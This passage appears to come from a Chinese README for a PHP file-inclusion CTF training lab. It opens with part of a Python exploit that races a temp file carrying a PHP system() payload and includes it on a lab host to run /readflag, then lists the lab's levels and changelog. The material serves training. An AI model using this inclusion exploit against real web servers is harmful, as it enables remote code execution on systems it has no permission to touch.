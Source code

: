 ```python
    def job():
        time.sleep(0.01)
        phpcode = 'wtf<?php system("/readflag");?>';
        c.send(phpcode)

    t = threading.Thread(target = job)
    t.start()

    # file_get_contents and include tmp file
    exp_file = dirname + "/" + tmpname
    print("[DEBUG]:"+exp_file)
    r3 = requests.post("http://192.168.34.1:8004/", data={'file':exp_file})
    print(r3.status_code,r3.text)
    if "wtf" in r3.text:
        break

    t.join()
    r.close()
    l.close()
    #r.interactive()
```

### Level 22: Nginx 在后端 Fastcgi 响应过大产生临时文件
Modified form [HXPCTF 2021]includer's revenge
参考文章：https://tttang.com/archive/1384/

### Level 23: 伪协议读文件二次URL编码
不多说 看关卡一目了然x

## 更新日志

**2024/07/29 更新**

- Level 0: include_base 体验关
- Level 1: file协议
- Level 2: data协议_1
- Level 3:  data协议_2
- Level 4: http:// & https://_1
- Level 5: http:// & https://_2
- Level 6: php协议_简介
- Level 7: php协议_php://input
- Level 8: php协议_php://filter_过滤器&字符串过滤器
- Level 9: php协议_php://filter_转换过滤器

**2024/08/02 更新**

为所有关卡添加了独立的 Dockerfile

- Level 10: 文件系统函数简介 & 文件系统函数_file_get_contents()
- Level 11: 文件系统函数_file_put_contents()
- Level 11-:封装协议解析（选自P牛2016年的文章 Filter的妙用）
- Level 11+:文件系统函数\_file_put_contents()_死亡绕过
- Level 12: LFI&&RFI的本质
- Level 13: LFI\_日志文件包含_Nginx
- Level 14: LFI\_日志文件包含_Apache
- Level 15: LFI_Session文件包含
- Level 16: FilterChain:THE_END_OF_LFI
- Level 17: FilterChain:file read from error-based oracle
